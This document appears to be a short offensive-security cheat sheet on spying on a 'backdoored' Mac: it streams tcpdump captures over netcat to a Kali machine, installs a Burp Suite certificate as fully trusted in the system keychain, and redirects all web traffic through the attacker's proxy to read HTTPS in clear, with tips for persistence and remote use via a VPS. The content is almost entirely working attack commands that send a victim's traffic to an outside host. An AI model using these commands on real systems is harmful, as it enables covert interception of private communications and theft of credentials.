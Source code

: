# Netcat & TCPDump:

## Data in file:

Sniff traffic from a mac with netcat (default on macos) and use tcpdump (default on macos) to send the traffic to Kali then use wireshark to analyse that traffic:

	- nc -l -p 7777 | tee /tmp/sniffed_output.pcap (on kali, without -p for mac)
	- /usr/sbin/tcpdump -w - | nc KALI_IP 7777 (on mac)

## Data in real time:

On kali:

	- mkfifo /tmp/wiretap
	- nc -l -p 9999 > /tmp/wiretap
	- wireshark -k -i /tmp/wiretap

On mac:

	- /usr/sbin/tcpdump -i <interface> -w - | nc 1.2.3.4 9999

## Sniffing https traffic (BURP):

Download BURP Pro and execute file (optional):

	- sudo bash /path/to/file

Open and configure proxy on burpsuite (port and ip).

On backdoored mac:

	- curl -s --insecure --proxy http://192.168.0.110:8080 http://burp/cert -o /tmp/burp.der (download certificate)

In the above command, curl will silently (-s) download the certificate from our Kali machine. The --proxy argument is required because we're instructing curl to use the newly configured Burp listener to fetch the certificate; This certificate isn't trusted by curl (or any web browser) by default, so the --insecure argument is required to ignore warnings in the output. Finally, the Burp certificate is saved (-o) to the /tmp directory with the file name burp.der. The .der file extension is merely the certificate's default file format and shouldn't be changed.

	- security add-trusted-cert -k /Library/Keychains/System.keychain -d /tmp/burp.der (add certificate to mac keychain)

Security will add (add-trusted-cert) and fully trust the certificate (-d /tmp/burp.der) into the macOS primary system Keychain (-k). All we have to do now is configure macOS to send us all of the target's web traffic.

List network services (optional):

	- /usr/sbin/networksetup -listallnetworkservices
	- /usr/sbin/networksetup -getwebproxy "Wi-Fi"
	- /usr/sbin/networksetup -getsecurewebproxy "Wi-Fi"

Active the certicate for http and https requests:

	- /usr/sbin/networksetup -setwebproxy "Wi-fi" 192.168.0.110 8080
	- /usr/sbin/networksetup -setsecurewebproxy "Wi-fi" 192.168.0.110 8080

Then in Burp, in HTTP history, all the traffic appear in clear.

We can send the encoded URL parameters in encoders, choose URL format, to decode parameters if necessary.

PortSwigger CA certificate are certificate created from Burp, can search it on keychain. Also can verify proxy configuration on system preference, network, on mac.

Keep connection open:

Use caffeinate to force keep the connection open:

	- caffeinate &

Desactive the certificate for http and https:

	- /usr/sbin/networksetup -setwebproxystate "Wi-fi" off
	- /usr/sbin/networksetup -setsecurewebproxystate "Wi-fi" off

Can use a VPS to use this technic if we are not in the same network.
